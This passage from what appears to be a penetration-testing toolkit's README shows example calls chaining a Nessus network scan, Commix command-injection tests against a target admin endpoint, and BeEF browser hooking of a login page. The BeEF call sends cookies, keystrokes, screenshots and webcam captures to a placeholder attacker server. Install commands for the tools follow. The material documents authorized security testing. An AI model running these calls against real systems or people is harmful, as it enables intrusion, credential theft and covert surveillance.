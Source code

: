 ```bash
    level=3,
    technique="time-based"
)
```

### **Scenario 6: Complete Professional Assessment**
```python
# Full enterprise-grade assessment workflow

# Phase 1: Professional Vulnerability Scanning
nessus_scan = await scan_with_nessus(
    target="10.0.0.0/8",
    scan_template="advanced",
    nessus_url="https://nessus-server:8834",
    access_key="your_access_key",
    secret_key="your_secret_key"
)

# Phase 2: Web Application Security Testing
commix_results = await test_command_injection(
    target="https://webapp.target.com/admin/system",
    level=3,
    technique="classic,eval-based,time-based",
    timeout=60
)

# Phase 3: Client-Side Exploitation
beef_hooks = await exploit_with_beef(
    target_url="https://webapp.target.com/login",
    beef_server="http://your-beef:3000",
    hook_method="social",
    payload_modules="get_cookie,screenshot,keylogger,webcam"
)

# Phase 4: Results Collection
nessus_results = await get_nessus_results(
    scan_id=nessus_scan['scan_id'],
    export_format="nessus"
)
```

## 🛠️ **Tool Installation Quick Commands**

### **Install Missing Tools**
```bash
# Install Commix
brew install commix  # macOS
# OR
git clone https://github.com/commixproject/commix.git && cd commix && python3 setup.py install

# Install BeEF Framework  
cd ~/tools && git clone https://github.com/beefproject/beef
cd beef && bundle install

# Install Nessus (Commercial - requires license)
# Download from: https://www.tenable.com/downloads/nessus
# Follow platform-specific installation instructions
```

